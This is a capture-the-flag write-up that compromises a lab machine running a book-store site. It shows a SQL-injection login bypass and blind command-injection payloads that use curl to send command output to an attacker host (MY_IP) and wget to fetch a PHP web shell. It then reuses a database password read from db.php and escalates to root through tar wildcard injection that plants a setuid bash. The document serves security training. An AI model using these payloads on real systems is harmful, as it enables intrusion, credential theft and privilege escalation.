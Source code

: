 ## BattleX CTF: machine2 
#### Category: Boot2Root
#### Score: 110
#### Number of Solves: 5 [First Blood 🩸] 
#### Machine name
### Description

> Ready to go

###  TL; DR

Exploit command injection to password reuse to wildcard injection on sudo tar to gain root access

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 21:47 WAT
Nmap scan report for 10.10.27.9
Host is up (0.63s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Big Hacking Book Store

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
```

### Exploring

![Imgur](https://i.imgur.com/vxHYIir.png)

_front page_

Nothing much in the source code, just links to a login page and register page that didn't exist

![Imgur](https://i.imgur.com/7AYjkla.png)

_Login page_

Since there's no registration page and I didn't wanted to fuzz for files or directories, I tried a basic SQLi to try bypass the login page and it worked: 

```
Username: '--
Password: '
```
Login page bypassed and greeted by a ping system in /pingsystem.php .

![Imgur](https://i.imgur.com/lsA4hKP.png)

This will likely be vulnerable to command injection, I just have to find a way to trigger the command injection. 

![Imgur](https://i.imgur.com/tz2d93t.png)

My form data was 

```
127.0.0.1; sleep 5
```

After several trials of several techniques of chaining commands, I found the one that works. 

```
127.0.0.1 `sleep 5`
```

The result didn't show, but the delay was sure executed by the system and I concluded it was vulnerable to blind command injection.

### Exploiting 

I proceeded to host a http server to get a result from my blind command injection. That way, it will be possible for me to get an insight of what's going on.

With some Python scripting and tweaking, I got an insight of the directory structure, current user and id

```
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(ls -lah)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(pwd)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(whoami)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(id)"  http://MY_IP:8080/`
127.0.0.1 `curl -X POST -H "Content-Type: text/plain" -d "$(wget -O images/exploit.php http://MY_IP:8090/ex.php)" http://MY_IP:8080/`
```

![own](https://i.imgur.com/bBqJg6t.png)

I let the server wget my php shell to the /images folder since I can write there (I tried with the current directory and it didn't work)

![Imgur](https://i.imgur.com/TIWTlQX.png)

With my netcat listening. I got shell

![Imgur](https://i.imgur.com/ZHlh9ck.png)

### Escalating privileges

```
www-data@BattleX:/var/www/html$ cat db.php
cat db.php
<?php
// db.php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$servername = "localhost";
$username = "hacksparo";
$password = "hacksparoisthebest123";
$dbname = "books";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
?>
```

There's a credential in the db.php. It is totally possible for this credential to be used for an actual user in the system. 

```
www-data@BattleX:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[snip]
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
hacksparo:x:1000:1000:,,,:/home/hacksparo:/bin/bash
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
```
Sure, there's a user hacksparo in the system. I upgraded my shell to a python spawned one so I can try out the credentials.

![Imgur](https://i.imgur.com/1sGZp3s.png)

I am user hacksparo, time to get flag. 

```
hacksparo@BattleX:~$ cat user.txt
cat user.txt
BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}
```
User flag: `BattleX{a3d9b7d4d5d6d4c3b2a1e9f8d7c6b5a4}` 

### Getting root access

```
hacksparo@BattleX:~$ sudo -l
sudo -l
Matching Defaults entries for hacksparo on BattleX:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacksparo may run the following commands on BattleX:
    (ALL) NOPASSWD: /bin/bash /opt/backup/backup.sh
```

With `sudo -l`, I can get if hacksparo can run sudo generally or only on one or two commands, sure enough, hacksparo can only run this specific command `sudo /bin/bash /opt/backup/backup.sh` on the machine. 

```
hacksparo@BattleX:~$ cat /opt/backup/backup.sh
#this is a test

sudo tar -cf backup.tar *
```
I can't alter the file to change its content but I can only run the script. `tar` can be exploited to gain access. The exploit is known as wildcard injection. The process I took was this 

```bash
echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh    
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Running that and running `sudo /bin/bash /opt/backup/backup.sh` will copy bash from /bin/ directory to my current direcotry and set suid bit to it. 

```
hacksparo@BattleX:~$ echo 'cp /bin/bash /home/hacksparo/bash; chmod +s /home/hacksparo/bash' > /home/hacksparo/shell.sh
hacksparo@BattleX:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
hacksparo@BattleX:~$ echo "" > --checkpoint=1
hacksparo@BattleX:~$ ls
'--checkpoint=1'  '--checkpoint-action=exec=sh shell.sh'   shell.sh   user.txt
```

![Imgur](https://i.imgur.com/39rdvXd.png)

success, now I can run `./bash -p` and get root access

![Imgur](https://i.imgur.com/Ti6Q0M6.png)

```
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}
```
Root flag: `BattleX{2f9e8d7c6b5a4d3c2b1a0f9e8d7c6b5a}`

![Not bad meme](https://media1.tenor.com/m/pK9Gkdmh-mAAAAAC/notbad-soccer.gif)
Not bad.